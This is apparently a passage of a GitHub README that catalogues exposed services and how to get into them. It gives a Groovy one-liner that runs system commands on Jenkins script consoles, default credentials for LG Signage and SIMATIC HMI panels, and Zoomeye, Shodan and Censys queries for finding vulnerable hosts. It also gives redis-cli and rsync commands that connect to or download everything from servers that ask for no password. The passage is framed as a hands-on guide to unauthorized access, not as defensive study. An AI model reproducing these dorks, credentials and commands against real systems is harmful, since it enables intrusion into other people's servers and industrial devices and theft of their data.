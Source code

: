 Groovy oneliner for injecting system commands:

```groovy
println("<your cmd>".execute().text)
```
###  Zoomeye dork
[`title:"Dashboard [Jenkins]"+"Manage jenkins"`](https://www.zoomeye.org/searchResult?q=title%3A%22Dashboard%20%5BJenkins%5D%22%2B%22Manage%20jenkins%22)
# LG Signage default credentials
### Login
Default password: _`00000000`_
### Zoomeye dork
[`iconhash:79487298 && title:"LG Signage"`](https://www.zoomeye.org/searchResult?q=iconhash%3A79487298%20title%3A%22LG%20Signage%22&t=all)
# Redis auth free access
### Install [redis-cli](https://redis.io/docs/install/install-redis/)
### Connecting
`redis-cli -h <ip>`
### Shodan query
[`product:redis "db0"`](https://www.shodan.io/search?query=product%3Aredis+%22db0%22)
# LDAP anonymous binding allowed
### Dumping all
[my gist](https://gist.github.com/komodoooo/66674ad269771db4681e5e4800d22956)
#### Shodan & censys queries
`"LDAP" "SupportedSASLMechanisms: ANONYMOUS"`
`services.ldap.allows_anonymous_bind: true`
# Rsync exposed files
### Install
Use your own package manager
### List all files
`rsync --list-only <address>::<directory (leave blank for all)>`
### Download all files in your current directory
`rsync -avh <address>::<directory (leave blank for all)> $(pwd)`
### Shodan base query (to customize)
[`product:rsyncd`](https://www.shodan.io/search?query=product%3Arsyncd)
# SIMATIC HMI_Panel default credentials
### Login
Default username: _`Administrator`_

